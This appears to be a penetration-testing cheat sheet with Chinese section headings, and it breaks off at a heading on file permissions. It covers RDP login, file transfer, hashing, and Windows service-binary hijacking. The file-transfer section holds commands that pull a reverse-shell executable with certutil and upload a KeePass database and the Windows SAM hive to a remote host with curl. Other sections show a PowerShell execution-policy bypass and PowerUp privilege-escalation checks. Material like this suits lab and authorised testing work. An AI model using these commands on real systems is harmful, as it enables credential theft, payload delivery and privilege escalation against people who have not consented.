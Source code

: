 ## RDP连接(clipboard启用剪贴板)


```
xfreerdp /u:username /p:'password' /v:192.168.244.221 +clipboard
rdesktop -u username -p 'password' 192.168.244.221

```



## 文件传输

```
iwr -uri http://192.168.45.175/file -Outfile file
certutil -split -urlcache -f http://192.168.45.161/rev.exe C:\\Windows\\Temp\\rev.exe

miniserve -p 80 . -u --
linux
curl -F "path=@C:\Users\milana\Documents\Database.kdbx" http://192.168.45.175/upload?path=/
win
.\curl.exe -F "path=@C:\windows.old\Windows\System32\SAM" http://10.10.62.147:81/upload?path=/

```



## 文件md5

```
windows:
certutil -hashfile file MD5
kali:
md5sum file
```





## 二进制文件劫持

```
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
```

### 查询服务

```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

### 查看文件权限
